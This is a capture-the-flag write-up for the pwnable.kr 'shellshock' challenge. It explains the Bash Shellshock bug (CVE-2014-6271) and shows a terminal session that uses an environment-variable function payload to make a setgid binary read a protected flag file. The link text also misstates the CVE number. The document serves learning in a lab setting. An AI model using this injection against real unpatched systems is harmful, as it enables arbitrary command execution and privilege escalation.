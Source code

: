 # Pwnable.kr - shellshock
* [CVE 2014-6721](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)
    * **shellshock** : Vulnerability in Bash Shell which allows the execution of arbitrary command through environment variable.
        ```bash
            $ env t=4 bash -c 'echo $t'
            4
            $ env t='() { :; };echo hello' ./shellshock
            hello
            shock_me
        ```
* [setresuid, setresgid](https://man7.org/linux/man-pages/man2/setresuid.2.html#:~:text=setresuid()%20sets%20the%20real,saved%20set%2Duser%2DID.)
    ```c
        int setresuid(uid_t ruid, uid_t euid, uid_t suid);  
        /*
        sets the reauser ID, the effective user ID, and the saved   set-user-ID of the calling process.
        */
        int setresgid(gid_t rgid, gid_t egid, gid_t sgid);  
        /*
        sets the real GID, effective GID, and saved set-group-ID of the calling process (and always modifies the filesystem GID to be the same as  the effective GID), with the same restrictions for unprivileged processes.
        */
    ```

* [env (Linux commnad)](https://man7.org/linux/man-pages/man1/env.1.html) : run a program in a modified envirnoment

# Pwn
```bash
    shellshock@pwnable:~$ ls -l
    total 960
    -r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
    -r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
    -r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
    -r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
    shellshock@pwnable:~$ ./bash --version
    GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
    Copyright (C) 2011 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later
    <http://gnu.org/licenses/gpl.html>

    This is free software; you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    shellshock@pwnable:~$ env t='() { :; };cat flag' ./shellshock
    only if I knew CVE-2014-6271 ten years ago..!!
    Segmentation fault (core dumped)
```

